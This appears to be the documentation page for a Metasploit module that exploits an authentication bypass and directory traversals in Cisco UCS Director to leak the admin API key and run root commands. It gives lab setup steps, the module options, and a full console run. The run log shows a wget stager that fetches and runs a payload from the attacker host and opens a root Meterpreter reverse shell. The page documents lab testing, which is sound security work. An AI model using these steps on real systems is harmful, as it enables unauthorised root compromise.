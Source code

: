 ## Vulnerable Application

### Description

This module exploits an authentication bypass and directory traversals
in Cisco UCS Director < 6.7.4.0 to leak the administrator's REST API
key and execute a Cloupia script containing an arbitrary root command.

Note that the primary functionality of this module is to leverage the
Cloupia script interpreter to execute code. This functionality is part
of the application's intended operation and considered a "foreverday."
The authentication bypass and directory traversals only get us there.

If you already have an API key, you may set it in the `API_KEY` option.
The `LEAK_FILE` option may be set if you wish to leak the API key from a
different absolute path, but normally this isn't advisable.

Tested on Cisco's VMware distribution of 6.7.3.0.

### Setup

**Note:** You will need a Cisco account to proceed, particularly for
**software.cisco.com**. _\*Cough\*_

1. Download
   [CUCSD_6_7_3_0_67414_VMWARE_SIGNED_EVAL.zip](https://software.cisco.com/download/home/286320555/type/285018084/release/6)
2. Unzip `CUCSD_6_7_3_0_67414_VMWARE_SIGNED_EVAL.zip` and unzip
   `CUCSD_6_7_3_0_67414_VMWARE_GA.zip` inside it
3. Import `CUCSD_6_7_3_0_67414.ovf` into VMware or your preferred
   virtualization software
4. Start the VM and wait for the system to finish booting
5. Visit <https://[RHOST]/app/ui/login.jsp>, where `[RHOST]` is the
   target's IP
6. Wait nearly forever for the system to finish initializing
7. Sign in with `admin:admin` to log the admin's REST API key in
   `/opt/infra/idaccessmgr/logfile.txt`

You are now ready to test the module using the steps below.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### API_KEY

If you already have an admin REST API key, you can authenticate with it
by setting this option.

### LEAK_FILE

This is the file to leak the API key from, specified as an absolute
path. It defaults to `/opt/infra/idaccessmgr/logfile.txt`, and you
shouldn't need to change it.

## Scenarios

### Cisco UCS Director 6.7.3.0 VMware distribution

```
msf > use exploit/linux/http/cisco_ucs_cloupia_script_rce
msf exploit(linux/http/cisco_ucs_cloupia_script_rce) > options

Module options (exploit/linux/http/cisco_ucs_cloupia_script_rce):

   Name       Current Setting                     Required  Description
   ----       ---------------                     --------  -----------
   API_KEY                                        no        API key if you have it
   LEAK_FILE  /opt/infra/idaccessmgr/logfile.txt  yes       Leak API key from this file (absolute path)
   Proxies                                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443                                 yes       The target port (TCP)
   SRVHOST    0.0.0.0                             yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080                                yes       The local port to listen on.
   SSL        true                                no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                   yes       Base path
   URIPATH                                        no        The URI to use for this exploit (default is random)
   VHOST                                          no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(linux/http/cisco_ucs_cloupia_script_rce) > set rhosts 172.16.249.158
rhosts => 172.16.249.158
msf exploit(linux/http/cisco_ucs_cloupia_script_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf exploit(linux/http/cisco_ucs_cloupia_script_rce) > run

[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Target is running Cisco UCS Director.
[*] Creating exports directory
[+] Successfully created exports directory
[*] Leaking API key from /opt/infra/idaccessmgr/logfile.txt
[+] Successfully dumped /opt/infra/idaccessmgr/logfile.txt
[+] Found API key: FE30858BE2FD4BAB8208F5A1DE909AAD
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/vV8W6PFtOmPZIe
[*] Local IP: http://192.168.1.3:8080/vV8W6PFtOmPZIe
[*] Generated command stager: ["wget -qO /tmp/BaebLrFX http://172.16.249.1:8080/vV8W6PFtOmPZIe;chmod +x /tmp/BaebLrFX;/tmp/BaebLrFX;rm -f /tmp/BaebLrFX"]
[*] Executing command: wget -qO /tmp/BaebLrFX http://172.16.249.1:8080/vV8W6PFtOmPZIe;chmod +x /tmp/BaebLrFX;/tmp/BaebLrFX;rm -f /tmp/BaebLrFX
[+] Successfully executed command: wget -qO /tmp/BaebLrFX http://172.16.249.1:8080/vV8W6PFtOmPZIe;chmod +x /tmp/BaebLrFX;/tmp/BaebLrFX;rm -f /tmp/BaebLrFX
[*] Client 172.16.249.158 (Wget/1.12 (linux-gnu)) requested /vV8W6PFtOmPZIe
[*] Sending payload to 172.16.249.158 (Wget/1.12 (linux-gnu))
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.158:35570) at 2020-05-10 05:46:44 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root @ localhost (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdom
OS           : CentOS 6.7 (Linux 2.6.32-754.6.3.el6.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
